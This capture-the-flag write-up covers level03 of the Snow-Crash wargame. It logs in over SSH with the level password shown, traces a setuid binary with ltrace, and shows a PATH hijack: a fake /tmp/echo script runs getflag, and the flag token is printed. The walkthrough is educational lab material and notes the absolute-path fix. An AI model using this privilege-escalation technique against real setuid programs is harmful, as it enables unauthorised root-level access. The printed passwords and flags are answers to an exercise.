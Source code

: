 Login as `level03`.
```shell
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level03
level03@192.168.1.64's password: kooda2puivaav1idi4f57q8iq
```

An executable file is located in home directory.
```shell
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```
Use `ltrace` program that simply runs the specified command until it exits.

It intercepts and records the dynamic library calls as well as the system calls executed by the program.
```gdb
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid() = 2003
geteuid() = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 0
+++ exited (status 0) +++
```
`system("/usr/bin/env echo Exploit me")` shows that echo command is executed without absolute path.
This is a common path vulnerability.

So real `echo` can be faked with a script or symlink.
For best practice is recommended to execute binaries by absolute path to avoid this type of vulnerability.
```shell
level03@SnowCrash:~$ vi /tmp/echo
#!/bin/bash
/bin/getflag
level03@SnowCrash:~$ chmod +x /tmp/echo
level03@SnowCrash:~$ export PATH="/tmp:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
